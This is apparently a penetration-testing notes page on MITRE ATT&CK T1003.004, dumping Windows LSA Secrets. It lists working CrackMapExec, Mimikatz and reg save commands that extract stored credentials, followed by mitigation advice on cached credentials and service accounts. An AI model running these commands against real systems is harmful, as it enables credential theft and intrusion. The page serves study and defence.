 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.004
---
```


# LSA Secrets

### Dumping LSA Secrets

```bash
# Dumping LSA Secrets remotely with CrackMapExec
crackmapexec smb $ip -u $user -p $password --lsa

# Dumping LSA Secrets with Mimikatz
lsadump::secrets

# Dumping LSA Secrets manually and then reading them with Mimikatz
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

```bash
Cached credential set to 0 on servers
Cached credential set to 1 on workstations
```

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials" %}

{% embed url="https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration" %}

{% embed url="https://www.passcape.com/index.php?cmd=details&id=23&section=docsys" %}
